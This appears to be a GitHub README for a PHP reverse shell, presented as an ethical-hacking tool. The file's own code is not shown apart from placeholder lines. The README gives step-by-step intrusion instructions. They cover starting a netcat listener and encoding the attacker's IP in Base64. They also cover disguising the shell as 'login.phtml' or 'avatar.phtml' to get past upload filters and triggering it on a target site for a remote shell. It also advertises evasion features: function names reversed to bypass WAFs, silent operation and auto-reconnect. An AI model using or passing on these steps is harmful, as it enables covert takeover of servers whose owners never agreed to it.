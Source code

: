 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably without showing any output.

## Features
- IP and shell command are Base64 encoded for stealth and easy customization

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like Cloudflared, Ngrok, Serveo, and others

- Upload with `.phtml` extension to bypass some filters

  ## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**
Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP script.

**3. Update the PHP script**  
Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload
Rename the file to something less suspicious, for example:**

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

  Using the `.phtml` extension helps the file run on some servers that block `.php`.

 Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.
